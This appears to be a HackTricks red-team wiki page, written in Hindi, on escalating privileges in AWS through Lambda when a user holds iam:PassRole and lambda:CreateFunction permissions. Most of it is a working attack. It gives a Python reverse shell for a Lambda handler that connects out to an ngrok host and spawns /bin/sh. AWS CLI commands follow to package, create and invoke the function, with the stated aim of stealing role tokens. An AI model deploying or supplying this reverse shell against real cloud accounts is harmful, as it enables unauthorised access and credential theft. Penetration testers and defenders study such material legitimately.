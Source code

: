 # AWS - Lambda Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Support HackTricks</summary></details>
{% endhint %}

## lambda

lambda के बारे में अधिक जानकारी:

{% content-ref url="../aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

**`iam:PassRole`, `lambda:CreateFunction`, और `lambda:InvokeFunction`** अनुमतियों वाले उपयोगकर्ता अपनी विशेषाधिकारों को बढ़ा सकते हैं।\
वे **एक नया Lambda फ़ंक्शन बना सकते हैं और उसे एक मौजूदा IAM भूमिका सौंप सकते हैं**, जिससे फ़ंक्शन को उस भूमिका से संबंधित अनुमतियाँ मिलती हैं। उपयोगकर्ता फिर **इस Lambda फ़ंक्शन में कोड लिख और अपलोड कर सकता है (उदाहरण के लिए एक rev shell)**।\
एक बार फ़ंक्शन सेटअप हो जाने के बाद, उपयोगकर्ता **इसके निष्पादन को ट्रिगर कर सकता है** और AWS API के माध्यम से Lambda फ़ंक्शन को कॉल करके इच्छित क्रियाएँ कर सकता है। यह दृष्टिकोण प्रभावी रूप से उपयोगकर्ता को Lambda फ़ंक्शन के माध्यम से अप्रत्यक्ष रूप से कार्य करने की अनुमति देता है, जो कि इसके साथ जुड़े IAM भूमिका द्वारा दी गई पहुँच के स्तर के साथ कार्य करता है।\\

एक हमलावर इसका दुरुपयोग करके **rev shell प्राप्त कर सकता है और टोकन चुरा सकता है**:

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('4.tcp.ngrok.io',14305))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/sh','-i'])
time.sleep(900)
return 0
```
{% endcode %}
```bash
# Zip the rev shell
zip "rev.zip" "rev.py"

# Create the function
aws lambda create-function --function-name my_function \
--runtime python3.9 --role <arn_of_lambda_role> \
--handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoke the function
aws lambda invoke --function-name my_function output.txt
```